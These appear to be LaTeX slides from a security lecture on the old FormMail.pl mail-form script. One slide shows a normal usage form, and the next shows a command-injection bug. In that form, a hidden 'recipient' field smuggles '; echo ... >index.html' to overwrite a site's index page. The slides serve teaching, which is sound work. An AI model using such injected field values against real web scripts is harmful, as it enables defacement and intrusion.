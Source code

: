 \begin{frame}[fragile,label=formMailUsage]{FormMail.pl}
    \begin{itemize}
        \item 1995 script for making mail forms
        \item usage if installed at \texttt{https://example.com/formmail.pl}
    \end{itemize}
    \begin{verbatim}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
...
Your email: <input name="from" value=""><br>
Your message:<br><textarea name="message"></textarea><br>
<input type="submit" value="Send Feedback">
</form>
\end{verbatim}
\end{frame}

\begin{frame}[fragile,label=bugInFormMail]{a bug in FormMail.pl}
    \begin{itemize}
        \item 1995 script
        \item example, write "You have been hacked!" to index.html
            \begin{itemize}
                \item (if user script runs as can change it)
            \end{itemize}
    \end{itemize}
    \begin{verbatim}
<form action="http://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
        value="; echo 'You have been hacked!' >index.html"
>
...
<input type="submit">
</form>
\end{verbatim}
    \begin{itemize}
        \item view HTML in web browser, click submit button
    \end{itemize}
\end{frame}


